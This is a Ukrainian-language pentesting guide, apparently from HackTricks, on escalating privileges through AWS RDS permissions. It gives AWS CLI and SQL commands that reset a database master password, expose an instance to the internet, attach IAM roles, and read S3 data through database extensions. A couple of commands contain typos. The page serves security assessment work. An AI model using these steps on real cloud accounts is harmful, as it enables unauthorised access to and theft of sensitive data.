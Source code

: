 # AWS - RDS Privesc

{{#include ../../../banners/hacktricks-training.md}}

## RDS - Служба реляційних баз даних

Для отримання додаткової інформації про RDS дивіться:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### `rds:ModifyDBInstance`

З цією дозволом зловмисник може **змінити пароль майстер-користувача** та вхід до бази даних:
```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```
> [!WARNING]
> Вам потрібно буде мати можливість **зв'язатися з базою даних** (вони зазвичай доступні лише з внутрішніх мереж).

**Потенційний вплив:** Знайти чутливу інформацію всередині баз даних.

### rds-db:connect

Згідно з [**документацією**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html), користувач з цим дозволом може підключитися до екземпляра БД.

### Зловживання дозволами ролі RDS IAM

#### Postgresql (Aurora)

> [!TIP]
> Якщо виконуючи **`SELECT datname FROM pg_database;`** ви знайдете базу даних під назвою **`rdsadmin`**, ви знаєте, що ви всередині **AWS postgresql бази даних**.

Спочатку ви можете перевірити, чи використовувалася ця база даних для доступу до будь-якої іншої служби AWS. Ви можете перевірити це, подивившись на встановлені розширення:
```sql
SELECT * FROM pg_extension;
```
Якщо ви знайдете щось на кшталт **`aws_s3`**, ви можете припустити, що ця база даних має **якийсь доступ до S3** (є й інші розширення, такі як **`aws_ml`** та **`aws_lambda`**).

Також, якщо у вас є дозволи на виконання **`aws rds describe-db-clusters`**, ви можете побачити, чи **кластер має будь-яку IAM роль, прикріплену** в полі **`AssociatedRoles`**. Якщо так, ви можете припустити, що база даних була **підготовлена для доступу до інших сервісів AWS**. Виходячи з **назви ролі** (або якщо ви можете отримати **дозволи** ролі), ви могли б **вгадати**, який додатковий доступ має база даних.

Тепер, щоб **прочитати файл всередині бакету**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```
Якщо у вас є **сирі AWS облікові дані**, ви також можете використовувати їх для доступу до даних S3 за допомогою:
```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```
> [!NOTE]
> Postgresql **не потрібно змінювати жодну змінну групи параметрів**, щоб мати доступ до S3.

#### Mysql (Aurora)

> [!TIP]
> Всередині mysql, якщо ви виконаєте запит **`SELECT User, Host FROM mysql.user;`** і є користувач з ім'ям **`rdsadmin`**, ви можете припустити, що ви знаходитесь всередині **AWS RDS mysql db**.

Всередині mysql виконайте **`show variables;`** і якщо змінні, такі як **`aws_default_s3_role`**, **`aurora_load_from_s3_role`**, **`aurora_select_into_s3_role`**, мають значення, ви можете припустити, що база даних підготовлена для доступу до даних S3.

Також, якщо у вас є дозволи на виконання **`aws rds describe-db-clusters`**, ви можете перевірити, чи має кластер будь-яку **асоційовану роль**, що зазвичай означає доступ до сервісів AWS).

Тепер, щоб **прочитати файл всередині бакету**, вам потрібно знати повний шлях. Ви можете прочитати його за допомогою:
```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```
### `rds:AddRoleToDBCluster`, `iam:PassRole`

Зловмисник з правами `rds:AddRoleToDBCluster` та `iam:PassRole` може **додати вказану роль до існуючого екземпляра RDS**. Це може дозволити зловмиснику **отримати доступ до чутливих даних** або змінити дані в межах екземпляра.
```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```
**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у RDS екземплярі.\
Зверніть увагу, що деякі БД вимагають додаткових налаштувань, таких як Mysql, який потребує вказати роль ARN у групах параметрів.

### `rds:CreateDBInstance`

Тільки з цим дозволом зловмисник може створити **новий екземпляр всередині кластера**, який вже існує і має прикріплену **IAM роль**. Він не зможе змінити пароль майстер-користувача, але може мати можливість виставити новий екземпляр бази даних в інтернет:
```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```
### `rds:CreateDBInstance`, `iam:PassRole`

> [!NOTE]
> TODO: Test

Зловмисник з правами `rds:CreateDBInstance` та `iam:PassRole` може **створити новий екземпляр RDS з прикріпленою вказаною роллю**. Потім зловмисник може потенційно **отримати доступ до чутливих даних** або змінити дані в екземплярі.

> [!WARNING]
> Деякі вимоги до ролі/профілю екземпляра для прикріплення (з [**тут**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html)):

> - Профіль повинен існувати у вашому обліковому записі.
> - Профіль повинен мати IAM роль, яку Amazon EC2 має право приймати.
> - Ім'я профілю екземпляра та пов'язане ім'я IAM ролі повинні починатися з префікса `AWSRDSCustom`.
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у RDS екземплярі.

### `rds:AddRoleToDBInstance`, `iam:PassRole`

Зловмисник з правами `rds:AddRoleToDBInstance` та `iam:PassRole` може **додати вказану роль до існуючого RDS екземпляра**. Це може дозволити зловмиснику **доступ до чутливих даних** або змінити дані в межах екземпляра.

> [!WARNING]
> DB екземпляр повинен бути поза кластером для цього
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
**Потенційний вплив**: Доступ до чутливих даних або несанкціоновані зміни даних у екземплярі RDS.

{{#include ../../../banners/hacktricks-training.md}}
